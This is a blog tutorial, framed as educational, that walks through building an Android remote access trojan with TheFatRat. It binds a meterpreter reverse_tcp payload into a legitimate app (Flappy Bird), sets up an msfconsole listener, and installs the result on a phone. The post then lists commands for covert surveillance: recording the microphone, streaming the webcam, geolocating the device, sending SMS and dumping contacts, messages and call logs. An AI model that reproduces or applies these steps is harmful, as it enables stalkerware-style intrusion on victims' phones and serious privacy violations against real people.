 ```yaml
---
title: Trying out an android Remote Access Trojan (RAT)
author: hugo
date: 2023-04-05 09:11:00 +0200
categories: [Tutorial, security]
tags: [hacking, android]
render_with_liquid: false
---
```



> This tutorial will guide you through the process of infecting Android phones with a trojan. The author gives this example for educational purposes and does not incentivise you to apply these techniques without prior consent
{: .prompt-info }

## The art of deception

_The best defense is a good offense_. Once you're able to write this up and distribute it yourself you'll get a good grasp of how this attack works and what to look out for to stay protected on the internet. Let's define what a trojan is and what we intend to do here today.

<em>In computing, a Trojan horse is any malware that misleads users of its true intent by disguising itself as a real program. The term is derived from the ancient Greek story of the deceptive Trojan Horse that led to the fall of the city of Troy.</em> [`Wikipedia`](https://en.wikipedia.org/wiki/Trojan_horse_(computing)).

To perform this attack you:

1. do not need to "root" your device. You should be able to connect your phone via USB or wifi and drag and drop the executable onto the phone without prior phone configuration.
2. will need to have physical access (pin number) to the phone you're targeting because Android is able to identify it as a trojan and tries to prevent you from installing it.

## Inception

I got inspired to write this blog post after watching a disturbing movie on netflix. "Unlocked" is the story of a korean psychopath who installs malware on a girl's lost cell phone and uses it to track her every move. The movie and the plot were not great but this idea stuck with me. It can't be that easy to install a tracker on a phone? right?

It took me a while to understand what tools and software exist out there. My mind naturally gravitated to the Google store first. I figured that the easiest and frictionless solution you could ever wish for would be on the App store. After some digging I finally discovered Airdroid which provides a lot of those malware features like GPS tracking and screen monitoring. The only two problems I had with it is that it's not a stealth solution, the app notifies the user that it's running on the background, and your data is sent to god knows who's server out there on the internet. I set it upon myself to find "better". A couple of weeks later I came to the realization that all of my deep web searches were in vain and got burnt out from clicking through all the online scams down there. The few forums I actually found looked like they came out from the 1990's which gave me nostalgia and some happy memories of what the early web looked like but ultimately it did not provide any answers.

After a couple of days I finally found the right keyword to search on google and came accross 10 potential candidates for this blog post. My mind finally settled on one called "TheFatRat" and "AndroRat".

## Strategy

Let's review what we are about to do. The plan is to test this malware locally on a virtual android environment and make sure that our server can successfully command and control the android phone. Once that's validated we can increase the complexity by deploying it onto an actual phone on our local area network. I was planning on showcasing at least four open source projects but ended up only reviewing two of them. The [L3MON](https://github.com/D3VL/L3MON) project vanished from github unfortunately and the [xhunter](https://github.com/anirudhmalik/xhunter) project did not work despite using the release and making sure to use the right Android OS version. It's been quite hard to find anything that (kind of) works so I'm happy to have at least found one open source project that actually applied the malware.

## Configuring and installing

We will be trying out two RATs today: [TheFatRat](https://github.com/screetsec/TheFatRat) and [AndroRAT](https://github.com/karma9874/AndroRAT). Both of which have their pros and cons. 

Starting in second place we have AndroRAT. The advantage of using this RAT is the fact that the author shared the actual Java code so you're able to modify and understand how it does it's magic. I deployed AndroRAT on one AVD and two actual phones (OS 13 and 6.0.1) and they were all extremely unstable. The RAT successfully spawned a reverse shell on my computer but it would randomly break and I would have to repeat the installation cycle all over again every time. If it wasn't for the transparency of the codebase I don't think I would have bothered mentioning this program in the first place but I can see potential in it. 

Our clear winner here today is TheFatRat who's functionalities are far and wide. This small executable claims it can take on Windows, Mac, Linux computers as well as android phones. I have yet to fully test and assess these claims but so far I have been blown away by the ease of use and the sheer amount of features this thing has. With our previous RAT we had to install and run a shaddy looking app which does not seem like a credible attack strategy. TheFatRat on the other hand allows us to attach the trojan onto a legitimate app which is how I assume most malware is distributed nowadays. TheFatRat has however a glaring problem which is that it's closed source. The program works thanks to a couple of bash scripts and pre-compiled (c++ code?) but you won't get to see a single line of actual source code which is disappointing to say the least.

Enough talk let's configure and install this software to see what it can do.

```console
    [waz@localhost]# git clone git@github.com:screetsec/TheFatRat.git
    [waz@localhost]# cd TheFatRat
    [waz@localhost]# chmod +x setup.sh && ./setup.sh
```
If the setup fails try running it again, it solved the issue for me as some libraries conflicted with existing ones I had previously installed.

Once the setup is complete you now see a program called _fatrat_ at the root of the project. Run it and it will start the following command line prompt

![FatRat welcome screen](/assets/img/posts/2023-04-05_11-31.png){: width="100%"}

The purpose of this tutorial today is to run an Android trojan so let's choose option number 5. You will then be asked to choose the host ip address, the host's port and the app you want to attach the payload to. I've choosen Flappy bird which I downloaded from APK mirror. The host ip is the IP address of the server that should communicate back with the infected target. Don't forget to allow the servers to communicate on the port you choose to run in your firewall.

![FatRat host configuration](/assets/img/posts/2023-04-05_11-38.jpg){: width="100%"}

Later in the process choose the option 3 "android/meterpreter/reverse_tcp" and then option 3 "Use MsfVenom"

Once configured make sure to add a listener and give it a name, I gave it the name `myratconfig.rc`. This will list out the configuration which will now be used to run our local server. This next command will start listening for incoming HTTP requests 

```console
    [waz@localhost]# msfconsole
```

Now copy paste the contents of `myratconfig.rc` in the console to start listening for incoming requests. The next step is to send the trojan and install it on a device. You can start a local android instance with the following command `./emulator -avd Pixel_API_33` or connect your phone to your computer via USB. Once installed it's you'll have a number of interesting commands at your disposal. You'll notice that the phone does not even need to have the infected app in the background in order to work

Here are the commands I found most interesting:

```console
# record the next 20 seconds activity from the microphone
record_mic -d 20
# send text messages 
send_sms -d +351961234567 -t "GREETINGS SWEETHEART."  
# list available cameras
webcam_list 
# take a picture from the camera s phone
webcam_snap 2
# start streaming the back camera
webcam_stream 
# locate the phone by returning the exact longitude/latitude position
wlan_geolocate -a REPLACE_WITH_YOUR_GOOGLE_API_KEY
# take a screenshot 
screenshot
# copy all of the call logs on the phone
dump_calllog
# copy all of the sms conversations on the phone
dump_sms
# copy all of the contacts on the phone
dump_contacts
```
## Video

I like to add a small clip to showcase what was said so far. Enjoy !

<div style="padding-top: 5px; padding-bottom: 5px; position:relative; display:block; width: 100%; min-height:400px">

<iframe width="100%" height="400px" src="https://minio-api.thekor.eu/chirpy-videos-f1492f08-f236-4a55-afb7-70ded209cb28/chirpy/2023-04-05%2022-31-03.mp4" title="YouTube video player" frameborder="0" allow="accelerometer; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen sandbox></iframe>

</div>

## Conclusion

I started this pen-tester/security journey recently and it feels like opening a pandora's box. The modern hacker has so many tools available at his disposal and the scary part is that I needed absolutely no programming knowledge to pull this off. A bit of curiosity sprinkled with some persistence here and there did the trick. If this blog post could convey one idea it is this: be extremely careful with the apps you install even when they come from the app store. 

Thank you for reading 

